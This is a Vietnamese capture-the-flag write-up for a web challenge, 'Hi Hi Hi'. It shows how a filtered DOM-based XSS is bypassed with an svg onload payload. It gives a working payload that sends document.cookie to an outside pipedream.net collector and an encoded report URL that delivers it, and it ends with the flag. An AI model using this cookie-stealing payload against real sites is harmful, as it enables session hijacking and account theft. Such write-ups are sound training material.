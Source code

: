 # Web
## 1.Hi Hi Hi
    http://146.190.115.228:20109
### Solution:
+ Mình nhập thử text `hacked` thì thấy hiện trên Dom nên mình đoán có thể là lỗi xss_dom_based:
+ 
![alt](https://scontent.xx.fbcdn.net/v/t1.15752-9/325544380_1539785776490524_506576420518357102_n.png?stp=dst-png_p403x403&_nc_cat=110&ccb=1-7&_nc_sid=aee45a&_nc_ohc=mxRJjvm2h5sAX-IFnMw&_nc_ad=z-m&_nc_cid=0&_nc_ht=scontent.xx&oh=03_AdShnEbKx5Gp4lBumSBFoVxAwb74bLspb0fMNVfKDYhvdw&oe=63EDEAC8)
+ Mình thử nhập `<script>alert(10)</script>` thì bị filter:
+ 
![alt](https://scontent.xx.fbcdn.net/v/t1.15752-9/325232288_1517370485416235_7328303388423511686_n.png?stp=dst-png_s240x240&_nc_cat=104&ccb=1-7&_nc_sid=aee45a&_nc_ohc=H8c6WsiYx8oAX-QqT_I&_nc_ad=z-m&_nc_cid=0&_nc_ht=scontent.xx&oh=03_AdRiX6GujoIBAJpe-w_pNUJMuDinPcWTvP6VU6nypt-5YA&oe=63EDEFAB)
+ Sau mình dùng burpsuite thì thấy message in ra nằm trong thẻ div:
+ 
![alt](https://scontent.xx.fbcdn.net/v/t1.15752-9/324403300_562610902450716_1189522020715437705_n.png?stp=dst-png_p206x206&_nc_cat=108&ccb=1-7&_nc_sid=aee45a&_nc_ohc=6yIEw5U1lVIAX9zld-t&_nc_ad=z-m&_nc_cid=0&_nc_ht=scontent.xx&oh=03_AdTY0ssYhl3oZNB1qfBO3-_ceuEbpJthnSPDJ7RMv_YsZg&oe=63EDE9DC)
+ Mình thử dùng thẻ svg `<svg onload="alert(10)"/>` thì được thật:
+ 
![alt](https://scontent.xx.fbcdn.net/v/t1.15752-9/325477432_2098078310381765_4736637555871183436_n.png?stp=dst-png_s320x320&_nc_cat=108&ccb=1-7&_nc_sid=aee45a&_nc_ohc=jKu7GXo4pP8AX9qvg-l&_nc_ad=z-m&_nc_cid=0&_nc_ht=scontent.xx&oh=03_AdSkixswTyARzDg7zpDQLwZu4b0kxf1lCMFazZyQjhCN2A&oe=63EDF35D)
+ Nên mình thử lấy cookie của máy mình `<svg onload="window.location='https://eoudjoqqnbfym00.m.pipedream.net/?cookie='.concat(document.cookie)"/>` thi get duoc cookie:
+ 
![alt](https://scontent.xx.fbcdn.net/v/t1.15752-9/323534900_8642520609151521_3244213864135894936_n.png?stp=dst-png_p206x206&_nc_cat=108&ccb=1-7&_nc_sid=aee45a&_nc_ohc=lRuhKcBSIhoAX97nNtA&_nc_ad=z-m&_nc_cid=0&_nc_ht=scontent.xx&oh=03_AdQ6GC-6hq-578_lPfn9EAdr3iu_mZKfmt4P1PExbJeDzA&oe=63EDCE99)
+ Nên mình thử gửi report luôn payload:
`http://127.0.0.1:13337/?message=http://146.190.115.228:20109/?message=%3Csvg+onload%3D%22window.location%3D%27https%3A%2F%2Feoudjoqqnbfym00.m.pipedream.net%2F%3Fcookie%3D%27.concat%28document.cookie%29%22%2F%3E` thì nhận được flag.

![alt](https://scontent.xx.fbcdn.net/v/t1.15752-9/325683778_853163225933721_2454076518486329042_n.png?stp=dst-png_p206x206&_nc_cat=110&ccb=1-7&_nc_sid=aee45a&_nc_ohc=P1Ocdj5eECoAX8E_sJb&_nc_ad=z-m&_nc_cid=0&_nc_ht=scontent.xx&oh=03_AdQxmVbprZ3IDsyaHAJItwRZj36LoTcpkwy5tE0aWTvcgg&oe=63EDD4F2)

> Flag: KCSC{T3T_TU1_3_T13P_Hmmmmmmmm}


